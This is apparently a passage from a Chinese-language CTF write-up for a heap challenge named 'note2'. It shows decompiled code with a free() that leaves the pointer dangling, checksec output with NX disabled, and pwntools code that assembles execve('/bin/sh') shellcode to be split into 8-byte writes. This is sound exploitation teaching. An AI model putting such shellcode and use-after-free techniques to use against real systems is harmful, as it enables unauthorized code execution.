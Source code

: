 ```c
        printf("content:");
        sub_B69(qword_2020A0[v1], v2);
        result = ++dword_20209C;
      }
    }
  }
  return result;
}
```

free未置0

```c
void dele()
{
  int v0; // [rsp+Ch] [rbp-4h]

  printf("index:");
  v0 = sub_B91();
  free((void *)qword_2020A0[v0]);
}
```

最主要的是NX没开

```shell
q@ubuntu:~/Desktop$ checksec note2
[*] '/home/q/Desktop/note2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments

```

这个题恶心在只能写入8个字节一次。。。。得把shellcode的字节码拆分

正常的汇编手撸64位shellcode，但是这里因为题目特性做点小修改

```python
context.arch = 'amd64'
code = '''
mov rax, 0x68732f6e69622f;
push rax
mov rdi, rsp;
mov rsi, 0;
xor rdx, rdx;
mov rax, 59;
syscall
'''
sc = asm(code)

```
